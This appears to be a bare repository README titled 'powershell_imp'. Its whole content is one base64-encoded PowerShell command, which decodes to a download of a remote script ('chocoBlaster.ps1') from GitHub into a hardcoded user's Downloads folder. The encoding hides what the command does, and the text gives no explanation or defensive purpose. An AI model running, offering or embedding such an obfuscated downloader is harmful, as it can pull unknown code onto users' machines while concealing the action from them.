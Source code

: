 # powershell_imp

powershell.exe -EncodedCommand SW52b2tlLVdlYlJlcXVlc3QgLVVSSSAiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL0hlbW9ycmFnaWUvcG93ZXJzaGVsbF9pbXAvcmVmcy9oZWFkcy9tYWluL2Nob2NvQmxhc3Rlci5wczEiIC1PdXRGaWxlICJDOlxVc2Vyc1x3ZWJfYXJpdmFsaWVyXERvd25sb2Fkc1x0ZXN0LnBzMSI=
